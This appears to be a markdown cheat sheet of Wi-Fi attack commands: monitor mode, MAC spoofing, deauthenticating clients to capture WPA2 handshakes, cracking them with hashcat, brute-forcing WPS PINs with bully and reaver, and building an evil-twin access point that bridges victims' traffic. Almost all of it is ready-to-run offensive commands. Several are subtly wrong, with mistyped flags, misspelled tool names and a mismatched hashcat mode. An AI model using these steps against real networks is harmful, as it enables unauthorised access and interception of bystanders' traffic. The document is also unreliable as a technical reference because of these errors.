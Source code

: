 # WiFi

## Monitor mode
Either:   
```
airmon-ng start wlan0
```

Or:  
```
ifconfig wlan0 down
iwconf wlan0 mode monitor
ifconfig wlan0 up
```


## Capture frames
`airodump-ng wlan0mon`

## Capture MAC addresses
To capture the MAC address of clients who have authenticated to the AP:  

`airodump-ng -c <channel> -a -bssid <bssid>`

Where:   
`<channel>` - The Channel that the AP is broadcasting on   
`<bssid>`   - The BSSID of the AP

## Spoof MAC address
Once a MAC address has been determined, the local MAC can be changed. First you need to take down the local adapter:

`ifconfig wlan0 down`

Then you can use `macchanger` to change the MAC address to match the one you captured:

`macchanger -m <mac> wlan0`

Finally, bring the interface back up:

`ifconfig wlan0 up`

## Attacking WPA2-PSK
WPA2-PSK is the most widely used protocol used for securing Wi-Fi, although WPA3 is starting to gain popularity.

To crack WPA2-PSK, the hash of the password must be captured and then cracked offline using a tool like `hashcat`. This passord hash can be captured by sniffing the network traffic until the client sends it to the AP, this can either be done stealthily by waiting or by forcing the client to disconnect from the AP.

The first step is to put the wireless adapter into [monitor mode](#monitor-mode) and then running:

`airodump-ng -bssid <BSSID> -c <channel> --write <file> wlan0mon`

where:   
`<BSSID>`    - The BSSID of the Target AP   
`<channel`   - The Channel the AP is transmitting on   
`<file>`     - A filename used to store the captured handshake   

### Forcing a client to reconnect
If you don't want to wait for a client to connect to capture the password hash, you can force an already connected client to disconnect from the AP. This will cause the client to reconnect, and you can quickly capture the hash:

`aireplay-ng -deauth 100 -a <BSSID> wlan0mon`

where:   
`-deauth 100` - Send 100 deauth frames to the AP   
`<BSSID>`     - The BSSID of the target AP

When the client reconnects, the four way handshake will be captured.

```
CH 11 ][ Elapsed:  3 hours 15 minutes  ][ 2023-02-05 10:27 ] [  WPA Handshake:  12:09:27:00:18:21
```

### Brute force
Now that you have the handshake, you can use a cracking program like `hashcat` to brute-force the password. This can either be done using a dictionary, or by iterating through a series of values.

`hashcat -m 16800 file.cap /user/share/dictionary/passwords.txt`



## Attacking WPS
WPS is a mechanism where a client can connect to an AP using a PIN, rather than a complex password. The PIN is made up of 8 digits, with the last digit being a checksum. With WPS 1.0, the first four are checked, and then the last 3 are checked separately. This gives 11,000 possible PINs. However with WPS 2.0, this has since been mitigated.

To get a list of APs with WPS, use `wash`:

`wash -i wlan0mon`

This will show a list like this:

|BSSID              |Ch |dBm  |WPS  |Lck  |Vendor    |ESSID                        |
|-------------------|---|-----|-----|-----|----------|-----------------------------|
|FF:FF:FF:FF:FF:FF  | 1 | -58 | 2.0 | No  | Unknown  | Business-Net                |
|FF:FF:FF:FF:FF:FF  | 1 | -54 | 2.0 | No  | Broadcom | Home                        |
|FF:FF:FF:FF:FF:FF  | 1 | -24 | 2.0 | No  | Broadcom | Home                        |
|FF:FF:FF:FF:FF:FF  | 1 | -48 | 2.0 | No  | Broadcom | Home                        |
|FF:FF:FF:FF:FF:FF  | 1 | -50 | 2.0 | Yes | Broadcom | OfficeJet 6950              |
|FF:FF:FF:FF:FF:FF  | 1 | -50 | 2.0 | No  | Unknown  | Apathy                      |
|FF:FF:FF:FF:FF:FF  | 1 | -50 | 1.0 | No  | Unknown  | Car                         |


Using the information from `wash` and `airodump-ng`, the PIN can be crute forced using either `bully` or `reaver`

### Bully

`bully wlan0mon -b <BSSID> -e <ESSID> -c <Channel>`

where:   
`<BSSID>`    - The BSSID of the AP
`<ESSID>`    - The ESSID of the client
`<Channel>`  - The channel that the AP is transmitting on

### Reaver

`reaver -i wlan0mon -b <BSSID> -vv`

where:   
`<BSSID>`    - The BSSID of the AP

## Evil Twin (MiTM)
`airbase-ng` turns a Wi-Fi adapter into an AP, broadcasting and accepting client connection. To make this possible, two network interfaces are required.

### Creating an AP
`airbase-ng -a <BSSID> --essid <ESSID> -c <Channel> wlan0mon`

where:   
`<BSSID>`    - The BSSID of the AP
`<ESSID>`    - The ESSID of the client
`<Channel>`  - The channel that the AP is transmitting on

### Bridge the connection
To allow internet traffic to flow through the rouge AP, a second network interface needs to be configured to allow traffic to seamlessly flow to any unsuspectingly connected clients.

While `airbase-ng` is running, open another terminal and check for an `at0` interface.

`iwconfig`

```
root@kali
└─# iwconfig                   
lo        no wireless extensions.

wlan0mon  unassociated  ESSID:""  Nickname:"<WIFI@REALTEK>"
          Mode:Monitor  Frequency=2.437 GHz  Access Point: Not-Associated   
          Sensitivity:0/0  
          Retry:off   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off
          Link Quality:0  Signal level:0  Noise level:0
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:0   Missed beacon:0

at0       no wireless extensions.
```

`at0` has been created, but it needs wireless extensions. This can be done by entering:

```
ip link add name ha type bridge

ip link set ha up

ip link set <Interface> master ha

ip link set at0 master ha
```

where:   
`<Interface>` is the interface connected to the internet (eth0 for example)

Finally, the newly created interface `ha` needs to have an IP address assigned to it. This can be done using `dhclient`

`dh client ha &`

### Forcing clients to connect to the fake AP
To force clients to connect to the Evil Twin AP, they need to be kicked off the legitimate AP. This can be done using `aireplay-ng` and sending de-authentication frames.

`aireplay-ng -deauth 1000 -a <BSSID> wlan0mon wlan0mon -ignore-negative-one`

